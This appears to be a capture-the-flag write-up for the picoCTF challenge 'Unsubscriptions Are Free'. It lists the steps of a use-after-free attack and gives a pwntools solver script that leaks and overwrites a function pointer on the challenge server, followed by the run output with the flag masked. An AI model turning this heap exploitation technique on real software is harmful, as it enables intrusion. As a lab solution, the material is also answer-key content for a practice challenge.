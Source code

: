 * Create an account with `M` and input a random string.
* Delete - free the account with `I`.
* Leak the address of `hahaexploitgobrrr`.
* Allocate a new chunk with `L` and write the leaked address of `hahaexploitgobrrr`.

#### Exploit

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'i386'

r = remote('mercury.picoctf.net', 58574)

# Create account
r.sendline('M')
r.sendline('w3t')

# Delete account
r.sendline('I')
r.sendline('Y')

# Leak address
r.sendline('S')
r.recvuntil('leak...')
leak = int(r.recvline().strip(), 16)
info(f'Leak: {leak:#04x}')

# Leave a message
r.sendline('L')
r.sendline(p32(leak))

success(f'Flag --> {r.recvline_contains(b"pico").strip().decode()}')
```

```bash
➜  Unsubscriptions Are Free git:(main) ✗ python solver.py
[+] Opening connection to mercury.picoctf.net on port 58574: Done
[*] Leak: 0x80487d6
[+] Flag --> picoCTF{XXX}
[*] Closed connection to mercury.picoctf.net port 58574
```


